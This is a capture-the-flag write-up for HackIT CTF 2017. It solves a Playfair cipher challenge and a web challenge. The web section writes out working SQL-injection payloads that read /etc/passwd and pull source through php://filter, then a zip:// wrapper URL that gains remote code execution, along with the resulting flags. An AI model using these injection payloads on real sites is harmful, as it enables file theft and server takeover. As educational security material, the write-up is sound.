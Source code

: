<h1>HackIT CTF 2017 Writeups</h1>

<h3>Crypto (100):  </h3><br>
Description shows that its a playfair cipher with same original message, we can use some online tools to bruteforce it <br>
https://www.quinapalus.com/playfair.html worked just fine, after extracting each message we get the keyword to cipher it<br>
and finally we append the keywords together and put them in flag format <br>
<code><br>
h4ck1t{hackitisverydangercrypto}
</code>



<h3>Web (100): </h3><br>
This challenge is about SQLi+LFI and turn that to RCE with the upload function
Looks like easy sql injection, but after fetching all tables and columns, only thing we got is a table named countries with 3 columns, nothing interesting<br>
but when we try to get current query with SQLi using <b>SELECT info FROM information_schema.processlist</b><br>
We see the query : Select scripPath from countries where countryname='something'<br>
thats looks like an LFI to mee, when we inject <code>countryname='' union select '/etc/passwd' -- - </code> we get passwd file<br>
<br>I used PHP wrappers to pull index.php and country/fr.php<br>
using countryname='' union select 'php://filter/read=convert.base64-encode/resource=country/fr.php'<br>
when we get source code we can base64 decode it and see where the file uploaded are stored<br>
This is the final part, we need to leverage the upload to a Remote code execution, I used a zip file containing php and uploaded it<br>
and used a zip wrapper to execute my php, http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27zip://uploads/l33t.zip%23secret.php%27%20--%20- <br>
my php file contains scandir function thats equivalent to 'ls' <br>
i got this response :
<code>Array ( [0] => . [1] => .. [2] => .htaccess [3] => country [4] => index.php [5] => iulersiueruigfuihseruhgi.php [6] => static [7] => uploads )</code>
<br>
that php file looked interesting, let's open it : http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27php://filter/read=convert.base64-encode/resource=iulersiueruigfuihseruhgi.php%27%20--%20-
<br>
got this : PD9waHAKCiRmbGFnPSJoNGNrMXR7JFFMJkxGST1GUjEzTkQkfSI7Cgo/Pgo= <br>
base64 decode it and find some php code with flag<code>"$flag="h4ck1t{$QL&LFI=FR13ND$};"</code>
that's our flag
